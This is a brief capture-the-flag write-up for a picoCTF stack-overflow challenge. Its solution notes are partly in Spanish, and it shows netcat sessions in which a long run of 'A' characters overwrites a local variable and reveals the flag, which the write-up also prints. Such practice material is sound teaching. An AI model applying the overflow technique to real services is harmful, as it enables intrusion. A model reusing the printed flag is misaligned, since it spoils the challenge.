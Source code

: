 ## Description
Smash the stack
Additional details will be available after launching your challenge instance.

## Hints

## Solution
Se bombardea de A hasta que el comparador y la toma de datos es A

```bash
┌──(ulrich㉿DasMausoleum)-[~]
└─$ nc saturn.picoctf.net 57612
Enter a string: num = 65

num is 64
Bye!
-
-
-
┌──(ulrich㉿DasMausoleum)-[~]
└─$ nc saturn.picoctf.net 57612
Enter a string: AAAAAAAAAAAAAAAAAAAAAAAAA

num is 65
You win!
picoCTF{l0c4l5_1n_5c0p3_7bd3fee1}

```

## Flag
picoCTF{l0c4l5_1n_5c0p3_7bd3fee1}

## Aditional Notes

## References
